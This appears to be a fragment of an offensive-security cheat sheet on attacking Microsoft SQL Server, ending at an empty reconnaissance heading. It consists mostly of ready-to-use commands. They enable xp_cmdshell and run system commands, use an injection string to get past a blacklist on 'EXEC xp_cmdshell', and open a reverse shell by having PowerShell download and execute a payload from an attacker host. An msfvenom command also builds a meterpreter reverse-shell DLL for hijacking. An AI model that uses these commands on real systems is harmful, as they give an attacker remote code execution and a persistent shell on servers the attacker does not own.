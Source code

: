 *   **Enable `xp_cmdshell` (One-liner):**

    ```c
    1> EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
    2> GO
    ```

**`xp_cmdshell`**

1.  **Identify who (except sysadmins) can use `xp_cmdshell`:** In order to be able to execute commands it's not only necessary to have `xp_cmdshell` enabled, but also have the EXECUTE permission on the `xp_cmdshell` stored procedure.

    ```c
    1> Use master; EXEC sp_helprotect 'xp_cmdshell'
    2> GO
    ```
2.  **Execute commands using SQL syntax on MSSQL:**

    ```c
    1> xp_cmdshell 'whoami'
    2> GO
    ```
3.  **Identify service account using `xp_cmdshell`:**

    ```c
    1> EXEC master..xp_cmdshell 'whoami'
    2> GO
    ```
4.  **Bypass blacklisted "EXEC xp\_cmdshell":**

    ```c
    1> '; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net'
    ```
5.  **Get reverse shell:**

    ```c
    1> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://<target_ip>:<target_port>/<payload>") | powershell -noprofile'
    2> GO
    ```

#### DLL Hijacking

*   **Tool:** \[\[Metasploit]]

    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f dll > evil.dll
    ```
* **Description:** Leverage DLL hijacking to execute arbitrary code with elevated privileges.

### Internal Reconnaissance

#### Enumerating Databases
